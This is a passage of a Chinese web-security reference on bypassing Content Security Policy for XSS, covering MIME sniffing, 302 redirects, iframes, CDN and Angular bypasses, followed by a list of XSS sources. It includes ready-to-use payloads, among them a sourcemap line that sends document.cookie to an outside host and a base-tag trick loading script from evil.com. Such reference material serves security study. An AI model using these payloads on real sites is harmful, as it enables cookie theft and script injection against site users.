 3.2.3.3.2. MIME Sniff

举例来说，csp禁止跨站读取脚本，但是可以跨站读img，那么传一个含有脚本的img，再

    “<script href=’http://xxx.com/xx.jpg’>“，这里csp认为是一个img，绕过了检查，如果网站没有回正确的mime type，浏览器会进行猜测，就可能加载该img作为脚本


3.2.3.3.3. 302跳转
对于302跳转绕过CSP而言，实际上有以下几点限制：  
- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致

3.2.3.3.4. iframe

当可以执行代码时，可以创建一个源为 css js 等静态文件的frame，在配置不当时，该frame并不存在csp，则在该frame下再次创建frame，达到bypass的目的。同理，使用 ../../../ /%2e%2e%2f等可能触发服务器报错的链接也可以到达相应的目的。

3.2.3.3.5. 其他
```
CND Bypass,如果网站信任了某个CDN, 那么可利用相应的CDN bypass 
Angular versions <1.5.9 >=1.5.0，存在漏洞 Git Pull Request 
jQuery sourcemap
document.write(`<script> //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
a标签的ping属性
For FireFox <META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">
<link rel="import" />
<meta http-equiv="refresh" content="0; url=http://...." />
当script-src为nonce或无限制，且base-uri无限制时，可通过 base 标签修改根URL来bypass，如下加载了http://evil.com/main.js
<base href="http://evil.com/">
<script nonce="correct value" src="/main.js"></script>
```


------------

3.2.4. XSS数据源
3.2.4.1. URL
- location
- location.href
- location.pathname
- location.search
- location.hash
- document.URL
- document.documentURI
- document.baseURI


------------

3.2.4.2. Navigation

window.name
document.referrer


------------
